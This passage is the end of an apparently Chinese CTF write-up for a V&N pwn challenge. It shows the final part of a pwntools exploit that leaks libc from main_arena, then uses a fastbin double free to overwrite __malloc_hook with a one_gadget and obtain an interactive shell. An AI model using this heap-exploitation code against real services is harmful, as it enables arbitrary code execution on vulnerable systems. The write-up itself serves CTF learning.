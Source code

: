 ```

    show(2)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 88
    malloc_hook = main_arena - 0x10
    libc_base = main_arena - 0x3c4b20
    log.success("libc addr: " + hex(libc_base))

    new(0x60, "arttnba3") 
    free(2)
    free(1)
    free(4)

    new(0x60, p64(libc_base + libc.sym['__malloc_hook'] - 0x23)) 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, b'A' * (0x13 - 8) + p64(libc_base + one_gadget) + p64(libc_base + libc.sym['__libc_realloc'] + 0x10)) 

    cmd(1)
    p.sendline(b'1')
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可get shell

![](img/731dd63d21f110b113bdd7ea5d43611a.png)

> 不得不说V&N出的题质量还是可以的，虽然说可能对大佬们来说只是一道简单题，但这确实让我这个大一的萌新受益匪浅XD
